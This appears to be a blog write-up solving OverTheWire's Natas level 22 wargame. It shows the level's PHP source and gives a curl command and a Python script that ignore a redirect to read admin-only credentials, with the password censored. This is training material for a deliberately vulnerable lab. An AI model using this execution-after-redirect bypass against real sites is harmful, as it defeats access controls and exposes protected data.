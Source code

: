 ```yaml
---
layout: post
title:  "Natas Level 21 → Level 22"
date:   2021-05-30 13:05:34
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: You can go your own way
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
This level greets us with a link to the source code and not much else. Guess that makes it pretty clear where we should start.

```php
<?
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?> 
```

Here we see the site is looking to see variable **revelio** is passed. Next is checks to see if we have the admin key set in our SESSION and if so, is the value set to 1.  If this check fails, we're redirected; otherwise we continue loading this page and fall into the following code:

```php
<?
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?> 
```

All we need to do is avoid the redirect. If you have access to curl, that will provide the easiest solution as curl doesn't follow redirects by default. A Python solution is also nice and quick. For either solution you'll need to provide the password to the current level.

### curl
```bash
curl -u natas22:c------------------------------J http://natas22.natas.labs.overthewire.org/?revelio=1
```

### Python
```python
#!/usr/bin/env python
import requests
from requests.auth import HTTPBasicAuth

password = 'c------------------------------J'
session = requests.Session()
auth = HTTPBasicAuth('natas22', password)

url = 'http://natas22.natas.labs.overthewire.org/index.php?revelio'

resp = session.get(url=url, auth=auth, allow_redirects=False)
print(resp.text)
```
